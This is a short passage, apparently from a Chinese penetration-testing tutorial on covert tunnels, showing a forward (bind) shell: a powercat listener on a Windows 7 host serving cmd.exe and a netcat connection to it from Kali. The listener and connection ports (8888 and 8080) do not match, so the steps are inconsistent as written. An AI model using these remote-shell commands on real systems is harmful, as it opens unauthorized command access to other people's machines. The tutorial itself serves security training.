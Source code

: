 （2）通过nc正向连接PowerCat

在Windows7服务器上执行监听命令：

```
powercat -l -p 8888 -e cmd.exe -v
```

![](img/隐藏通信隧道基础知识/47.png)

然后再Kali主机上执行命令：

```
nc 192.168.2.13 8080 -vv
```

![](img/隐藏通信隧道基础知识/48.png)
